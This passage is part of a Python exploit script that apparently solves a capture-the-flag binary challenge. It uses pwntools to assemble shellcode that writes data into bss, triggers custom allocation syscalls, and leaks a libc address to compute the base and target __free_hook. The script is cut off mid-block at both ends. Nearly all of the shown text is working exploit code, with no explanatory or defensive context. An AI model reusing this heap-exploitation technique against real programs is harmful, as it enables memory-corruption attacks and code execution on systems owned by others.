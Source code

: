 ```Python
            mov eax,3
            mov edi,{}
            syscall  
        '''.format(idx)
    )

def set_bss(addr, content):
    global code
    length = len(content)
    for i in range(length//8 + 1):
        try:
            code += asm(
                '''
                    mov rdi, {}
                    mov rsi, {}
                    mov qword ptr[rdi], rsi

                '''.format(addr + 8*i, u64(content[8*i : 8*i+8]))
            )   
        except:
            if length%8 != 0 :
                code += asm(
                    '''
                        mov rdi, {}
                        mov rsi, {}
                        mov qword ptr[rdi], rsi

                    '''.format(addr + 8*i, u32(content[8*i :]))
                )   

def alloc(name,  sz):
    global code
    set_bss(bss_base, name)
    code += asm(
        '''
            mov eax,2
            mov rdi,{}
            mov rsi,{}
            syscall  
        '''.format(bss_base, sz)
    )

def exp():
    global code
    #debug([0x2207,0x1b7d, 0x1720])
    alloc('aaaa',0x400)#3
    read(3, bss2_base, 0x8)
    # leak libc        free_hook
    #     bss2_base       +8
    #
    code += asm(
        '''
            mov rax, {}
            mov rbx, qword ptr[rax]
            sub rbx, 0x1ec1f0
            mov qword ptr[rax], rbx
        '''.format(bss2_base)
    )
    code += asm(
        '''
            mov rax, {}
            mov rbx, qword ptr[rax]
            add rbx, {}
```